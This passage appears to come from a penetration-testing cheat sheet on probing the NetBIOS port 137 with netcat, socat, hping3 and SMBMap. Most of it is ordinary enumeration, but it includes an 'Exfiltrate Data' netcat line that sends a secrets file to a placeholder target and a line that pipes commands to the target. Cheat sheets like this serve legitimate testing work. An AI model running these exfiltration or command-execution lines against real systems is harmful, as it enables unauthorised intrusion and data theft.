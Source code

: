 #### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 137
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 137 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 137
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 137 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:137
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 137 -c 1
    ```

#### \[\[SMBMap]]

*   **Target Specification:**

    ```bash
    smbmap -H <target_ip> -d <target_domain> -u <username> -p <password> options
    ```
*   **Accessing Specific Shares:**

    ```bash
    -r <share>: Access a specific share on the remote system. 
    -s <share>: Specify a custom SMB share name for shares requiring authentication.
    ```
*   **Listing Shares:**

    ```bash
    -R: Recursively list directories and files in accessible shares.
    ```
*   **Loading Shares from a File:**
